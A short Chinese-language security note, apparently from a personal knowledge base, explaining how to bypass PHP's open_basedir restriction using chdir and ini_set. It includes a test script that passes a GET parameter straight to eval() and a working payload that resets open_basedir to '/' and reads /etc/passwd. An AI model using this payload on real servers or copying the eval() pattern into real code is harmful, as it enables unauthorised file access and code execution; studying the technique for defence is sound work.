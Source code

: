 ### 基本原理

这种利用方式跟open_basedir存在缺陷的处理逻辑有关，具体原理可参考：

[《通过chdir来bypass open_basedir》](https://www.jianshu.com/p/98535e6c54df)

[《从PHP底层看open_basedir bypass》](https://www.4hou.com/web/17357.html)

### Bypass

测试Demo，放置在Web根目录下，在执行输入参数的PHP代码前后获取open_basedir的值看是否改变了：

```php
<?php
echo 'open_basedir: '.ini_get('open_basedir').'<br>';
echo 'GET: '.$_GET['c'].'<br>';
eval($_GET['c']);
echo 'open_basedir: '.ini_get('open_basedir');
?>
```

输入以下payload：

```php
mkdir('mi1k7ea');chdir('mi1k7ea');ini_set('open_basedir','..');chdir('..');chdir('..');chdir('..');chdir('..');ini_set('open_basedir','/');echo file_get_contents('/etc/passwd');
```

可以看到open_basedir被设置为’/‘了，整个失去了效果：

![image-20231120130749452](assets/image-20231120130749452.png)

注意，如果php文件在Web根目录，则需要构造一个相对可上跳的open_basedir：

```php
mkdir('mi1k7ea');
chdir('mi1k7ea');
ini_set('open_basedir','..');
```
